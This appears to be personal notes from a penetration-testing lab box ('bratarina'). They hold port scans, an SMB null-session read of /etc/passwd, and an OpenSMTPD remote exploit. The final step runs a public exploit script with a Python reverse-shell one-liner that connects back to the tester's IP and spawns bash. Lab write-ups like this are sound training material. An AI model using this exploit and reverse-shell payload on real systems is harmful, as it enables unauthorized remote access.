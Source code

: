 Linux ttl=61

# rustscan

```
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 61
25/tcp  open  smtp         syn-ack ttl 61
80/tcp  open  http         syn-ack ttl 61
445/tcp open  microsoft-ds syn-ack ttl 61
```

# nmap

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:dd:2c:ea:2f:85:c5:89:bc:fc:e9:a3:38:f0:d7:50 (RSA)
|   256 e3:b7:65:c2:a7:8e:45:29:bb:62:ec:30:1a:eb:ed:6d (ECDSA)
|_  256 d5:5b:79:5b:ce:48:d8:57:46:db:59:4f:cd:45:5d:ef (ED25519)
25/tcp  open  smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.45.244], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
80/tcp  open  http        nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: bratarina
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00
|   FQDN: bratarina
|_  System time: 2024-06-24T16:35:51-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-24T20:35:49
|_  start_date: N/A
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 0s
```

# initial/priv

### smb null was enabled

![[Pasted image 20240625023613.png]]

got /etc/passwd file

### 80

![[Pasted image 20240625023714.png]]

same even after providing FQDN name and also flaskBB has no exploit on metasploit

even nothing with directory busting
### OpenSMTPD

![[Pasted image 20240625024227.png]]

lol this is the one

![[Pasted image 20240625024251.png]]

ping is coming back

```
python3 47984.py 192.168.182.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.244\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```

needed to add that `\` in kali IP to make it work